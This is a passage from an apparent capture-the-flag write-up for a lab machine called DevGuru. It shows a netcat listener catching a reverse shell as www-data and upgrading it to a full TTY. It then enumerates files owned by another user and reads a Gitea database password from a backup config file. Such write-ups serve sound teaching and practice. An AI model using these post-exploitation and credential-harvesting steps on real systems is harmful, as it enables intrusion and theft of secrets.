 We have a reverse shell with www-data privileges and we upgrade it to a full tty shell.

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.166] 54394
bash: cannot set terminal process group (974): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devguru:/var/www/html$ ^Z
zsh: suspended  nc -vlnp 443
root@kali:~$ stty raw -echo;fg
[1]  + continued  nc -vlnp 443

www-data@devguru:/var/www/html$ export TERM=xterm
www-data@devguru:/var/www/html$ stty rows 39 columns 164
```

By listing the processes we can see that gitea is running with frank privileges, the possible way to gain access as frank user.

```bash
www-data@devguru:/opt$ ps aux | grep frank
frank      614  4.6 26.0 1442108 128508 ?      Ssl  07:05   0:07 /usr/local/bin/gitea web --config /etc/gitea/app.ini
```

Listing files that belongs to user frank.

```bash
www-data@devguru:/opt$ find / -user frank -type f 2>/dev/null | grep -v 'proc\|sys'
/var/backups/app.ini.bak                                                          
/usr/local/bin/gitea
```

Digging into the buckup file, the credentials for the gitea database were found.

```bash
www-data@devguru:/opt$ cat /var/backups/app.ini.bak
...
[database]
; Database to use. Either "mysql", "postgres", "mssql" or "sqlite3".
DB_TYPE             = mysql
HOST                = 127.0.0.1:3306
NAME                = gitea
USER                = gitea
; Use PASSWD = `your password` for quoting if you use special characters in the password.
PASSWD              = UfFPTF8C8jjxVF2m
...
```

I logged in via adminer to the gitea database.
